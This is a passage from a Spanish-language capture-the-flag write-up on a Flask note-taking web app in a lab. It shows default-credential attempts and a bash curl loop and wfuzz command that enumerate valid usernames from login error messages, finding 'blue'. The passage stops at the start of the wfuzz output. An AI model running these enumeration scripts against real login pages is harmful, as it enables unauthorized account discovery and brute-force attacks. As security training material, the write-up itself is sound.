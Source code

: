 > Puedes instala la herramienta de `python` : `pip install webtech`
{: .prompt-info}

Observamos muchas tecnologías asociadas al lenguaje `Python`, así que ya podemos tener una idea. 

> Si fuera el caso que no encontramos el uso del microframework `Flask`, podemos deducir de su uso ya que por defecto `Flask` usa el puerto **5000** para lanzar el servidor de tu aplicación web
{: .prompt-tip}

Siguiendo con la fase de reconocimiento pasemos a ver la interfaz de la web:

> Ingresando con `Firefox`

![HTTPWeb](http_web.png){: .shadow}

De primeras observamos una aplicación para poder tomar notas. Ya que podemos logearnos intentamos usar credenciales por defecto (admin:admin, administrator:administrator, guest:guest). Solo logramos observar un mensaje de credenciales inválidas:

![InvalidCredentials](invalid_credentials.png)

Estos mensajes son importantes y podemos tomar la ventaja de **validar usuarios** respecto al mensaje que vemos en pantalla. Por ejemplo, nos creamos un usuario y escribimos una **contraseña incorrecta** para ver como responde la web:

![InvalidLogin](invalid_login.png)

Ojito, podemos llegar a la conlusión que podemos **validar usuarios en la aplicación** respecto al mensaje de error. Entonces procedemos a "Fuzzear" posibles usuarios:

> Usando un script en `bash`

```console
❯ cat enumerate_users.sh
#!/bin/bash

list=$(locate xato-net-10-million-usernames-dup.txt)

while read -r user; do
        response=$(curl -si -d "username=$user&password=dadaada" -i http://10.10.11.160:5000/login | grep Invalid | awk -F">" '{print $2}' | awk -F"<" '{print $1}')
        if [[ $response == "Invalid login" ]]; then
                echo $user ":" $response
        fi;
done < $list; wait
❯ bash ./enumerate_users.sh
blue : Invalid login <-------- Found user!
```

> Puedes encontrar el pequeño script en mi repositorio: [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/Auto-tools_Noter/user_enumeration/enumerate_users.sh)
{: .prompt-info}

> Con la herramienta `wfuzz`

```console
❯ wfuzz -c -t 50 -w /usr/share/SecLists/Usernames/xato-net-10-million-usernames-dup.txt -d 'username=FUZZ&password=badpassword' --ss 'Invalid login' http://10.10.11.160:5000/login
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.160:5000/login
Total requests: 624370

=====================================================================
```